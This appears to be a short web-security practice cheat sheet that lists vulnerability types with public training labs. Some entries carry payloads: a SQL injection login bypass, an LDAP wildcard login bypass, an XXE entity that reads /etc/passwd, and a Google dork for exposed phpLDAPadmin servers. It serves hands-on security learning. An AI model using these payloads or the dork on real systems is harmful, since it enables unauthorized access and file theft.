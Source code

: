# Cross Site Scripting (Reflected & Stored)
Lab : http://testphp.vulnweb.com/index.php

# HTTP Parameter Pollution
Lab : https://bwapp.hakhub.net/hpp-1.php
Payload : &movie=2

# SQL Injection
Lab : https://juice-shop.herokuapp.com/#/login
Payload : admin' or '1'='1'--

# HTTP Verb Tampering
Lab : http://challenge01.root-me.org/web-serveur/ch8/

# LDAP Injection

Google Dork - 
intitle:"phpLDAPadmin" inurl:cmd.php

Login Bypass - 
user=*
password=*
--> (&(user=*)(password=*))

# XML Injection
Lab : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
Payload :
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
